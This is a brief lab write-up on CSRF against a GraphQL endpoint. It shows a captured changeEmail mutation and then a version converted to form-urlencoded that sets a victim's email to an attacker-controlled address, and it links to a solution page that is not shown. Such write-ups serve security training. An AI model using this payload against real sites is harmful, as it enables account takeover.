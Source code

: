 # Performing CSRF exploits over GraphQL
To solve this lab, we can use the change email request that we make when we change our own email. Then we can convert it into a `x-www-form-urlencoded` type and then write a solve page.

1. Change our own email and capture request:
```
...
Content-Type: application/json
...

{"query":"\n    mutation changeEmail($input: ChangeEmailInput!) {\n        changeEmail(input: $input) {\n            email\n        }\n    }\n","operationName":"changeEmail","variables":{"input":{"email":"test@test.t"}}}
```

2. change method into `x-www-form-urlencoded` - this is what I got working
```
...
Content-Type: x-www-form-urlencoded
...

query=mutation changeEmail {
changeEmail(input: {email:"pwn@pwned.evil"}){email}}
```
3. Create a page that when user visits it, it changes their email.
[Soltion can be found here](./assets/Performing%20CSRF%20exploits%20over%20GraphQL.html)